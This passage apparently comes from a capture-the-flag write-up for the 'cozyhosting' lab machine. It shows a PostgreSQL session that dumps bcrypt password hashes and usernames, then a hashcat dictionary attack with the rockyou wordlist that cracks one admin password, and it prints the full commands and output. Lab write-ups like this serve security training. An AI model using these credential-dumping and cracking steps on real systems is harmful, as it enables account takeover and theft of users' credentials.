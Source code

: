 ```sql
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

cozyhosting=# SELECT password FROM users;
                           password
--------------------------------------------------------------
 $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)

cozyhosting=# SELECT name FROM users;
   name
-----------
 kanderson
 admin
(2 rows)

```

That looks like a `bcrypt` hash, so I will run it through `hashcat` against `rockyou`.

```bash
$ hashcat -a 0 -m 3200  ../bcrypt-cozy.txt ../rockyou.txt

[...]

Host memory required for this attack: 49 MB

Dictionary cache built:
* Filename..: ../rockyou.txt
* Passwords.: 14344394
* Bytes.....: 139922213
* Keyspace..: 14344387
* Runtime...: 0 secs

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
Time.Started.....: Tue Sep 05 07:20:52 2023 (5 secs)
Time.Estimated...: Tue Sep 05 07:20:57 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      504 H/s (5.31ms) @ Accel:2 Loops:8 Thr:12 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2880/14344387 (0.02%)
Rejected.........: 0/2880 (0.00%)
Restore.Point....: 2520/14344387 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: biscuit -> soccer9
Hardware.Mon.#1..: Temp: 51c Fan: 19% Util: 97% Core:1923MHz Mem:4006MHz Bus:16

Started: Tue Sep 05 07:20:44 2023
Stopped: Tue Sep 05 07:20:59 2023

```
